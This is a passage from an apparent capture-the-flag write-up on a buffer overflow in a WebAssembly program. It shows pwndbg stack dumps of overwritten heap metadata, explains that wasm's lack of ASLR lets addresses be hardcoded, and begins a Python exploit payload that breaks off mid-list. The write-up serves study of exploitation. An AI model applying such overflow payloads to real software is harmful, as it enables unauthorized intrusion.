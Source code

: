 Let's take a closer look at the region between input and PIN:

```
pwndbg> tel 0x7ffe300122d0
00:0000│  0x7ffe300122d0 ◂— 0x66647361 /* 'asdf' */
01:0008│  0x7ffe300122d8 ◂— 0
... ↓     5 skipped
07:0038│  0x7ffe30012308 ◂— 0x1100000000
08:0040│  0x7ffe30012310 ◂— 0x18e0000018e0
09:0048│  0x7ffe30012318 ◂— 0x3200000010
0a:0050│  0x7ffe30012320 ◂— 0x300012350
0b:0058│  0x7ffe30012328 ◂— 0
... ↓     3 skipped
0f:0078│  0x7ffe30012348 ◂— 0x1300000000
10:0080│  0x7ffe30012350 ◂— 0
11:0088│  0x7ffe30012358 ◂— 0x48100000000
12:0090│  0x7ffe30012360 ◂— 0x1235800012358
13:0098│  0x7ffe30012368 ◂— 0
14:00a0│  0x7ffe30012370 ◂— 0x4000019e8
15:00a8│  0x7ffe30012378 ◂— 0x300000000
16:00b0│  0x7ffe30012380 ◂— 0x100000002
17:00b8│  0x7ffe30012388 ◂— 0x400000123d8
18:00c0│  0x7ffe30012390 ◂— 0
19:00c8│  0x7ffe30012398 ◂— 0xffffffff00000004
1a:00d0│  0x7ffe300123a0 ◂— 0xffffffff
1b:00d8│  0x7ffe300123a8 ◂— 0
... ↓     133 skipped
a1:0508│  0x7ffe300127d8 ◂— 0x5200000480
a2:0510│  0x7ffe300127e0 ◂— 'TESTPINTESTPINTESTPINTESTPINTESTPIN\n'
a3:0518│  0x7ffe300127e8 ◂— 'ESTPINTESTPINTESTPINTESTPIN\n'
a4:0520│  0x7ffe300127f0 ◂— 'STPINTESTPINTESTPIN\n'
a5:0528│  0x7ffe300127f8 ◂— 'TPINTESTPIN\n'
a6:0530│  0x7ffe30012800 ◂— 0xa4e4950 /* 'PIN\n' */
```

Most likely, we overwrote some important values here that should not be 0, hence crashing the program. These values are
probably the heap metadata used to maintain the heap, which explains why the program crashed when we tried to read the
flag file.

Luckily, wasm sandboxing once again works to our advantage. Since addresses are simply offsets from the start of the
virtualized memory region, there's no PIE or ASLR involved, so we can just hardcode all the values - whether addresses
or chunk size values - without needing to leak anything! It took me a while to copy the values over into the exploit
script, but this is the final exploit:

```python
payload = flat(
            *((0x0,)*7),
            0x0000001100000000,
            0x000018e0000018e0,
            0x0000003200000010,
            0x0000000300012350,
            *((0x0,)*4),
            0x0000001300000000,
            0x0,
            0x0000048100000000,
            0x0001235800012358,
            0x0,
            0x00000004000019e8,
            0x0000000300000000,
            0x0000000100000002,
            0x00000400000123d8,
```
